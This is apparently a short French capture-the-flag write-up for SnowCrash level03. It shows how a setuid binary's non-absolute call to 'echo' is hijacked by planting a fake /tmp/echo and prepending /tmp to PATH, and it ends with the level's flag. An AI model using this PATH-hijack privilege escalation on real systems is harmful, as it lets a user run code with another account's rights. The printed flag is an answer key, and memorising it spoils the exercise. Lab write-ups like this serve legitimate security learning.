 #+TITLE: SnowCrash -- level03

* Fichier binaire
** lorsqu'on le lance, le binaire affiche "exploit me"
** On remarque que le fichier appartient a flag03, et que le bit suid est present.
** Je remarque que le binaire appelle /usr/bin/env echo "exploit me"
C'est cette ligne que nous allons exploiter. Le chemin d'echo n'est pas absolu. Nous pouvons donc tranquillement creer un fichier executable 'echo' dans un dossier sur lequel nous avons des droits d'ecriture.
#+begin_bash
echo "getflag" > /tmp/echo
chmod +x /tmp/echo
PATH="/tmp:$PATH" ./level03
#+end_bash

* FLAG:
** qi0maab88jeaj46qoumi7maus
